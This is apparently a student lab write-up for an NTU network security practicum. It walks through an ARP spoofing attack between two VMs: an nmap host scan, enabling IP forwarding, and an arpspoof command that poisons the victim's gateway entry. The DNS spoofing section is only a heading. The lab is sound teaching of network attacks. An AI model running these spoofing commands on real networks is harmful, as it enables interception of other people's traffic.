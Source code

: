 ```yaml
---
title: A&D of Network Security - Lab 4(ARP & DNS SPOOFING)
tags: [NTU, NTU_PADNS]

---
```


# A&D of Network Security - Lab 4(ARP & DNS SPOOFING)
###### tags: `Practicum of A&D of NS` `NTU`

## Background
[ARP Spoofing at `1:15:00`](https://youtu.be/ha4w30V2cLM?si=eK2wwkqROck5n3SY&t=4497)

## ARP SPOOFING
1. Setting 2 VMs' network interface as Bridged adapter
    :::danger
    You supposed to use your own network instead of public network
    :::
2. Checking IP
![](https://i.imgur.com/V1CTmtr.png)

    ![](https://i.imgur.com/i6RUqmM.png)
And check the victim gateway by `nmap`
    ```bash!
    $ sudo nmap -sP 192.168.43.0/24
    Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-19 10:46 EDT
    Nmap scan report for DESKTOP-D0UCTM3 (192.168.43.56)
    Host is up (0.00020s latency).
    MAC Address: 68:54:5A:DC:03:57 (Intel Corporate)
    Nmap scan report for 192.168.43.66
    Host is up (0.010s latency).
    MAC Address: D4:38:9C:87:2F:C6 (Sony)
    Nmap scan report for kali (192.168.43.222)
    Host is up (0.00040s latency).
    MAC Address: 08:00:27:B1:9D:67 (Oracle VirtualBox virtual NIC)
    Nmap scan report for 192.168.43.78
    Host is up.
    Nmap done: 256 IP addresses (4 hosts up) scanned in 6.13 seconds
    ```
    :::info
    Victim VM $\to$ `192.168.43.222` / MAC $\to$ `08:00:27:F7:12:7A`
    Attacker VM $\to$ `192.168.43.78` / MAC $\to$ `08:00:27:B1:9D:67`
    Default Gateway $\to$ `192.168.43.66`
    :::
    

3. Open NAT Port Forwarding
* In Attacker VM
    ```bash!
    $ sudo su
    $ echo 1 > /proc/sys/net/ipv4/ip_forward
    $ exit
    $ cat /proc/sys/net/ipv4/ip_forward
    1
    ```
* In Victim VM
    ```bash
    $ arp -a
    ? (192.168.43.78) at 08:00:27:f7:12:7a [ether] on eth0
    DESKTOP-D0UCTM3 (192.168.43.56) at 68:54:5a:dc:03:57 [ether] on eth0
    DESKTOP-D0UCTM3 (192.168.43.56) at 68:54:5a:dc:03:57 [ether] on eth0
    ```
4. Start to attack
    ```bash
    $ sudo arpspoof -i eth0 -t 192.168.43.222 192.168.43.66
    // sudo arpspoof -i {網卡介面} -t {攻擊目標 IP} {Gateway IP}
    ```
5. Result
![](https://i.imgur.com/46xo2IZ.png)

    ![](https://i.imgur.com/2CG3iER.png)

    ![](https://i.imgur.com/qkkrFfy.png)


### Problem & Solved
:::info
If you can not install `dsniff`, you may update and upgrade the whole system with command `sudo apt-get update; sudo apt-get upgrade`(It may take lot's of time to finish the work)
:::

## DNS SPOOFING
